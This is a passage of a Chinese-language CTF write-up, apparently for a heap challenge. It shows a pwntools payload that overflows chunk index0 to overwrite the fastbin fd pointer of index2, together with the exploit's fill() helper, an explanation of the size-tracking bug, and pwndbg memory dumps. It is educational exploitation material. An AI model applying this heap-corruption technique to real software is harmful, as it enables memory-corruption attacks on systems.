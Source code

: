 ### 1-4、对index0进行fill操作，溢出修改index2的fd指针
```c
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)
--------------------------------------------------------------   
#exp中fill函数定义如下：
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
--------------------------------------------------------------  
```

还记得上面提到的程序漏洞吗？

**第一次执行Allocate函数时chunk_content_size是我们指定的，但是fill的时候并没有将新的****chunk_content_size写入到结构体中，并且之前alloc**** chunk时指定的堆块size大小没有发生改变，所以这里就出现了任意堆溢出的情形。******

这一小段payload的目的是：通过fill index0溢出修改index2的fd指针为index4的地址，此处的payload只用修改fd的最后一个字节为0x80即可。**<font style="color:#F5222D;"></font>**

执行payload之后的内存空间如下：

> chunk2->fd已成功修改为chunk4的起始地址**<font style="color:#F5222D;">（这个起始地址是指向chunk header的）</font>**
>

```c
pwndbg> x/50gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
                #payload从这里开始修改堆块内容
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2（fastbin）
0x555555757050:	0x0000555555757080	0x0000000000000000
    			#此处的fd指针已经被修改
--------------------------------------------------------------    
执行payload前原来的内容为：
0x555555757050:	0x0000555555757020	0x0000000000000000
--------------------------------------------------------------    
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000091 #index4（fastbin）
0x555555757090:	0x0000000000000000	0x0000000000000000
.....（省略内容均为空）
0x555555757110:	0x0000000000000000	0x0000000000020ef1 #top_chunk
.....（省略内容均为空）
pwndbg>  
```
